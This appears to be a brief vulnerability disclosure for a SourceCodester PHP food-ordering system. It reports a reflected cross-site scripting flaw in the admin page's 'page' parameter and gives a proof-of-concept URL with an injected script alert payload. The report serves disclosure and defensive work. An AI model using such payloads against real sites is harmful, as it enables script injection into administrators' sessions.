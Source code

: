 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212480753-2293f1b8-42f6-421a-aa69-77274c489008.png)
http://192.168.249.88/php-fos-db/admin/index.php?page=%3C/script%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E
![image](https://user-images.githubusercontent.com/30823782/212480767-dedc6f07-fbe1-49c5-9bfe-aa6ece2502af.png)


